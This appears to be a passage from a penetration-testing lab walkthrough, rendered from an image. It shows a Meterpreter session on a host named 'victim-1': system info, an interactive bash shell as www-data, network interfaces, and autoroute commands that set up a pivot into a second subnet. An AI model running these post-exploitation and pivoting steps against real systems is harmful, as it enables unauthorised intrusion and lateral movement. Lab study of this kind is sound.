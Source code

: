 ```
meterpreter > sysinfo
Computer    : victim-1
OS          : Linux victim-1 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64
Meterpreter : php/linux
meterpreter > shell
Process 794 created.
Channel 0 created.
/bin/bash -i
bash: cannot set terminal process group (426): Inappropriate ioctl for device
bash: no job control in this shell
www-data@victim-1:/app/files$ ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:c0:43:f0:03  
          inet addr:192.67.240.3  Bcast:192.67.240.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2821 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2197 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:246653 (246.6 KB)  TX bytes:144365 (144.3 KB)

eth1      Link encap:Ethernet  HWaddr 02:42:c0:58:e7:02  
          inet addr:192.88.231.2  Bcast:192.88.231.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:19 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:1602 (1.6 KB)  TX bytes:0 (0.0 B)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```

```
meterpreter > run autoroute -s 192.88.231.2

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.88.231.2/255.255.255.0...
[+] Added route to 192.88.231.2/255.255.255.0 via 192.67.240.3
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.88.231.2       255.255.255.0      Session 1

meterpreter > background
[*] Backgrounding session 1...
```
